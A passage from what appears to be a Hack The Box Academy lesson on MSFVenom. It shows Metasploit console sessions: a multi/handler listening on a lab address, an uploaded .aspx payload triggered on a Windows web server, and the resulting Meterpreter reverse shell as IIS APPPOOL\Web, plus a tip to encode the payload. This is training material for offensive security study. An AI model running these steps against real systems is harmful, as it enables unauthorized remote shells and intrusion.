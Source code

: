 ```shell-session

LHOST => 10.10.14.5


msf6 exploit(multi/handler) > set LPORT 1337

LPORT => 1337


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:1337 
```

---

## Executing the Payload

Now we can trigger the `.aspx` payload on the web service. Doing so will load absolutely nothing visually speaking on the page, but looking back to our `multi/handler` module, we would have received a connection. We should ensure that our `.aspx` file does not contain HTML, so we will only see a blank web page. However, the payload is executed in the background anyway.

   

![Triggering the .aspx payload by visiting the appropriate web page.](https://academy.hackthebox.com/storage/modules/39/S16_SS01.jpg)

#### MSF - Meterpreter Shell

  Introduction to MSFVenom

```shell-session
<...SNIP...>
[*] Started reverse TCP handler on 10.10.14.5:1337 

[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:1337 -> 10.10.10.5:49157) at 2020-08-28 16:33:14 +0000


meterpreter > getuid

Server username: IIS APPPOOL\Web


meterpreter > 

[*] 10.10.10.5 - Meterpreter session 1 closed.  Reason: Died
```

If the Meterpreter session dies too often, we can consider encoding it to avoid errors during runtime. We can pick any viable encoder, and it will ultimately improve our chances of success regardless.

---